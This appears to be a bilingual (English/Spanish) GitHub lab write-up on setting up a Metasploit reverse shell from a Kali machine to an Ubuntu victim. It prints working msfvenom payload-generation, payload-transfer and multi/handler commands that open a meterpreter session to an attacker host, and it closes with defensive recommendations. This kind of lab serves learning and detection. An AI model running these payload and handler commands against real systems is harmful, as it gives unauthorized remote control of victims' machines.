




# Metasploit Reverse Shell Lab

## Objective

Explore the behavior of a reverse shell in Linux systems using Metasploit and verify the establishment of a remote session via msfconsole.

## Tools Used

- Kali Linux (attacker)
- Ubuntu Server (victim)
- msfvenom – payload generation
- msfconsole – handler setup
- tcpdump or netcat – traffic monitoring

## Procedure

1. Payload generation:

   A reverse TCP payload was generated in ELF format using the following command:

   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f elf > shell.elf

3. Payload transfer to the victim:

   The payload was hosted on the attacker's machine using:

   python3 -m http.server

   On the victim, it was downloaded using wget or curl.

5. Metasploit handler setup:

   In msfconsole, the following configuration was used:

   use exploit/multi/handler  
   set PAYLOAD linux/x86/meterpreter/reverse_tcp  
   set LHOST <attacker_IP>  
   set LPORT 4444  
   run

7. Execution of the payload:

   On the victim machine:

   chmod +x shell.elf  
   ./shell.elf

9. Successful connection:

   A meterpreter session was established. Commands such as sysinfo, getuid, and shell were executed to demonstrate access.

## Results

- The reverse shell connection was successfully established.
- Full control of the victim machine was obtained.
- Traffic was observable and unencrypted via tcpdump.

## Conclusions

- Reverse shells represent a high-risk vector when execution controls are not enforced.
- msfvenom can produce payloads that are not detected by signature-based AV.
- Properly configured tools like tcpdump or Snort can help detect unusual outgoing connections.

## Recommendations

- Use execution control mechanisms like AppArmor or SELinux.
- Monitor non-standard outbound connections.
- Block known ports used by payloads (e.g., 4444).
- Deploy IDS solutions to detect shell patterns and unauthorized access attempts.

# Laboratorio de Conexión Inversa con Metasploit

## Objetivo

Explorar el comportamiento de una conexión inversa en sistemas Linux utilizando Metasploit y verificar el establecimiento de una sesión remota mediante msfconsole.

## Herramientas Utilizadas

- Kali Linux (atacante)
- Ubuntu Server (víctima)
- msfvenom – generación del payload
- msfconsole – configuración del handler
- tcpdump o netcat – monitoreo del tráfico

## Procedimiento

1. Generación del payload:

   Se generó un payload TCP inverso en formato ELF con el siguiente comando:

   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f elf > shell.elf

2. Transferencia del payload a la víctima:

   El payload fue alojado en la máquina atacante con:

   python3 -m http.server

   En la víctima se descargó usando wget o curl.

3. Configuración del handler en Metasploit:

   En msfconsole se configuró lo siguiente:

   use exploit/multi/handler  
   set PAYLOAD linux/x86/meterpreter/reverse_tcp  
   set LHOST <attacker_IP>  
   set LPORT 4444  
   run

4. Ejecución del payload:

   En la máquina víctima:

   chmod +x shell.elf  
   ./shell.elf

5. Conexión exitosa:

   Se estableció una sesión meterpreter. Se ejecutaron comandos como sysinfo, getuid y shell para verificar el acceso.

## Resultados

- La conexión inversa fue establecida exitosamente.
- Se obtuvo control completo de la máquina víctima.
- El tráfico fue visible y no cifrado usando tcpdump.

## Conclusiones

- Las conexiones inversas representan un vector de alto riesgo si no se aplican controles de ejecución.
- msfvenom puede generar payloads que no son detectados por antivirus basados en firmas.
- Herramientas como tcpdump o Snort, correctamente configuradas, pueden detectar conexiones salientes sospechosas.

## Recomendaciones

- Utilizar mecanismos de control de ejecución como AppArmor o SELinux.
- Monitorear conexiones salientes no estándar.
- Bloquear puertos comúnmente utilizados por payloads (por ejemplo, 4444).
- Implementar soluciones IDS para detectar patrones de shell y accesos no autorizados.
